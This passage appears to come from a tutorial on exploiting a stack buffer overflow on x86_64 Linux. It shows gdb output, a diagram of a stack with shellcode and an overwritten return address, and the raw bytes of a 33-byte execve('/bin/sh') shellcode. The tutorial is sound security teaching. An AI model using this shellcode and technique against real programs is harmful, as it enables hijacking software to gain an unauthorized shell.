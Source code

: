 The b's we input is now the value of the base pointer. Let's see what happens when `retq` tries to return to the "0x6363..." address:

```
(gdb) si
Program received signal SIGSEGV, Segmentation fault.
...
(gdb) i r $rip
rip            0x401147            0x401147 <cp+33>
```

The program crashes. Note that the instruction pointer is unchanged, still pointing to the `ret` instruction of `cp`. If you run the `bt` command in gdb, it is clear that the next return address is "0x6363...". The reason the program crashes is that the address is to large.

Try giving the same input as before, but reducing the number of c's to 4. The instruction pointer is successfully changed, but the program still crashes since it will try to return to 0x0000000063636363.

Next, instead of writing junk to the stack, we will exploit the vulnerability to get a shell.

#### Getting a shell in gdb

Continuing to work in gdb, this is what we want the stack to look like for successful exploitation.

```
top of stack
===================================
shellcode                       <----o
shellcode                            |
...                                  |
shellcode                            |
==================================   |
junk (saved frame pointer)           |
==================================   |
ret pointing to start of shellcode --o
==================================
bottom of stack
```

To turn the stack into the above, we'll start with the shellcode. The writing of shellcode will be covered later, for now we can grab a working shellcode from shell-storm.org/shellcode.

> I've chosen the 33 byte Linux x86_64 `execve(/bin/sh, [/bin/sh], NULL)` by hophet, available at http://shell-storm.org/shellcode/files/shellcode-76.php

The bytes of the shellcode are as follows:

```
\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05
```

We need to fill the buffer with 80 bytes, but our shellcode is only 33 bytes. What should the rest be filled with?

A really good choice is to prefix our shellcode with a NOP-sled and postfix it with anything.

